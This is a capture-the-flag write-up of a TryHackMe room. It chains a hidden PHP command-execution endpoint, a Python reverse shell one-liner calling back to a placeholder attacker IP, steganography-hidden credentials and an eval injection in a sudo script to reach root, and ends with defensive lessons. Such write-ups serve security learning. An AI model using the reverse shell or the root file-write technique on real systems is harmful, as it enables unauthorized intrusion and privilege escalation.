# U.A. High School Writeup

**Machine Name:** U.A. High School  
**Platform:** TryHackMe  
**Difficulty:** Easy

---


## Introduction

U.A. High School is an easy-rated TryHackMe room dressed up in a My Hero Academia theme. The vulnerability chain underneath the theme, though, is completely ordinary. What looks like a plain marketing page for a "hero academy" website is quietly running a hidden diagnostic script, one that will execute system commands for anyone who happens to find the right URL.

From there the room piles on a handful of very ordinary mistakes. A password sits in a public web folder. A passphrase hides inside a broken image file. A sudo-permitted script trusts user input more than it should. None of these are hard to exploit on their own. Chaining them together is really an exercise in enumeration discipline: check every response, decode anything that looks encoded, and never assume a "corrupted" file is actually useless.

## Phase 1: Enumeration

I started with a full TCP port scan against the target to see what was reachable.

> nmap -p- -sV \<TARGET_IP\>

Only two ports were open:

```
22/tcp   ssh    OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp   http   Apache httpd 2.4.41 ((Ubuntu))
```

Loading the site in a browser showed a landing page for "U.A. High School," complete with an About section and a course list. Nothing on the page itself looked exploitable. The next step was mapping out what sat underneath it.


## Phase 2: Finding a Forgotten Folder

A directory scan against the site root turned up the usual static pages, plus one interesting 301 redirect: `/assets` pointing to `/assets/`.



Visiting it directly returned an empty, blank page. No directory listing, no obvious content.



Running the scan again against `/assets/` itself uncovered another redirect, this time to an `images` folder, alongside a long list of forbidden `.htaccess` variants.



## Phase 3: A Parameter Nobody Documented

Out of curiosity I tried `/assets/index.php` directly in the browser. It hadn't shown up in the previous scan, but it loaded anyway, blank, returning a `200 OK`.



That was reason enough to point a fresh directory scan straight at the file itself, treating `index.php` as a base path instead of an endpoint. Buried in a wall of forbidden results was one line that stood out: a chain of path segments ending in `popen2?cmd=dir`, returning a real `200` with actual content.



Opening that URL returned a short base64 string.



Decoding it produced a plain file listing: `images`, `index.php`, `styles.css`, the contents of the `assets` folder. So the `cmd` parameter at the end of that URL wasn't decoration. It was being executed.



> **Security Issue #1:** Undocumented Endpoint Allows Unauthenticated Command Execution. A hidden path buried under a legitimate PHP file accepted a `cmd` parameter and ran it as an OS command. No authentication, no obvious logging, no mention of it anywhere in the visible application. It only surfaced because directory brute-forcing got pointed at the file itself instead of stopping at the first blank response.

## Phase 4: Confirming Remote Code Execution

To rule out a fluke, I swapped the parameter for something with an unambiguous answer.



Running `cmd=whoami` returned another base64 blob.



Decoded, it read `www-data`, the web server's own user. Full, unauthenticated remote code execution, sitting behind a URL nobody was ever supposed to find.



## Phase 5: Reverse Shell

The `cmd` parameter was fine for one-off commands, but it wasn't interactive. I set up a listener and passed a Python reverse shell payload through the same parameter instead.

> python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("\<ATTACKER_IP\>",\<PORT\>));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'

The listener caught the callback a moment later. An interactive shell as `www-data`.



## Phase 6: A Passphrase and a Broken Picture

With a shell in hand, I walked the web root folder by folder. Sitting next to the site's `html` directory was a second folder, `Hidden_Content`, holding a single file: `passphrase.txt`. Its contents were base64-encoded again.



That decoded to a passphrase, with no indication yet of what it unlocked.



I checked `/home` next and found a user, `deku`. Their `user.txt` and `.ssh` folder were both locked behind permissions I didn't have yet, which was a decent hint that the passphrase was meant to get me into that account rather than straight to a flag.



Back in the web root's `images` folder, one file looked out of place: `oneforall.jpg`. I pulled it down for a closer look.



It wouldn't open. The image viewer complained that the file wasn't actually a JPEG, despite the extension.



> **Security Issue #2:** Credentials Hidden Instead of Secured. A real system password was reachable from the web root, protected only by two layers of obscurity: a mismatched file header and a steganography passphrase, not any actual access control. Neither held up once command execution was already on the table.

## Phase 7: Fixing the File Header

A broken image is usually a broken header, so I dumped it to hex to take a look.



The first bytes were unmistakably a PNG signature, not a JPEG one, despite the file being named and served as a `.jpg`.



Using the JPEG signature from the standard file-signature reference, I opened the hex dump in a text editor and swapped the header bytes over.





Converting the corrected hex back into a binary file produced a valid image: fan art of Deku mid-attack, One For All crackling around his arm.





## Phase 8: Steganography and the First Flag

A themed image, a passphrase with no obvious use yet, and a file that needed its header fixed before it would even open. All three pointed toward steganography, so I ran `steghide` against the repaired file.



The passphrase from `Hidden_Content` unlocked it right away, extracting a `creds.txt` file with a short note and a `username:password` pair for the `deku` account.



Those credentials logged straight into SSH as `deku`.



### First flag

From there, `user.txt` was sitting in the home directory, no longer locked.



## Phase 9: A Script That Trusts Too Much

Checking sudo rights for `deku` showed one permitted command: a script called `feedback.sh`, runnable as any user.



Reading the script explained why that mattered. It prompts for feedback text, rejects input containing a short list of characters (backticks, parentheses, `$(`, pipes, ampersands, semicolons, question marks, exclamation marks, backslashes), and if the input passes, runs it through `eval "echo $feedback"` before logging it to a file.



The blocklist never mentions `>` or `/`. Since `deku` can run this script with full sudo privileges, feeding it a redirection instead of plain text writes a file as root, anywhere on the filesystem. A quick test confirmed it: a file created through the script's feedback prompt came out owned by `root`.



> **Security Issue #3:** Blocklist Input Validation Missed Key Characters. The script tried to sanitize input by rejecting a short, specific list of "dangerous" characters, but left output redirection (`>`) and path separators (`/`) wide open. Paired with `eval()` running under sudo, that gap is enough to write arbitrary files as root.

## Phase 10: Turning a File Write Into Root

An arbitrary root-owned file write is one step away from a root shell, as long as you get to choose where it lands. I generated a fresh SSH key pair locally and locked down the private key's permissions.





Then I ran `feedback.sh` again, this time feeding it the public key followed by a redirect into `/root/.ssh/authorized_keys`. The script wrote it there without complaint, owned by root.



> **Security Issue #4:** Sudo Access Granted to an Unsafe Script. Letting `deku` run this specific script as any user assumed the script was safe simply because it was a fixed file sitting on disk. A script that echoes and evaluates whatever text a user types in is functionally a shell, just with a couple of extra steps in front of it.

With the public key in place, logging in as root over SSH worked immediately.







### Flag 2

`whoami` confirmed it, and `root.txt` was waiting in the home directory, closing out the room.



## Blue Team Perspective

Working back through this chain, here's what I think a defensive team would have caught, and where.

### 1. Debug Endpoints Have No Place in Production

A path-info route that executes OS commands should never ship to a live server, documented or not. Fix: strip debug, diagnostic, and utility endpoints out of production builds as a mandatory release-checklist item, and treat any endpoint capable of running system commands as high-risk no matter how obscure its URL looks.

### 2. Secrets Belong in a Vault, Not a Web Folder

Storing a real account password inside the web root, even split across an encoded note and a steganography-protected image, is still storing a plaintext credential somewhere a scanner or an attacker with shell access will eventually find it. Fix: keep credentials out of anything web-accessible, and use a proper secrets manager instead of leaning on obscurity.

### 3. Validate With Allowlists, Not Blocklists

Trying to enumerate every "dangerous" character is a losing game. It only takes one miss. Fix: validate user input against what's actually expected, plain alphanumeric text for a feedback form, for instance, instead of trying to block a list of symbols, and avoid running user input through `eval()` at all.

### 4. Review Every Sudo Rule Like It's a Root Shell

Granting sudo access to a custom script is only as safe as that script's handling of input. Fix: audit any sudo rule that hands a user broad execution rights over a script, prefer tightly scoped commands with fixed arguments over general-purpose scripts, and test custom sudo scripts for injection before trusting them in production.


This write-up is part of my ongoing series documenting CTF challenges as I build my portfolio in cybersecurity. I approach each challenge from both offensive and defensive perspectives, because understanding both sides is what makes a well-rounded security professional.

If you're also on the journey toward a SOC or Security Engineering role, feel free to connect. I'm always happy to discuss techniques and share resources.
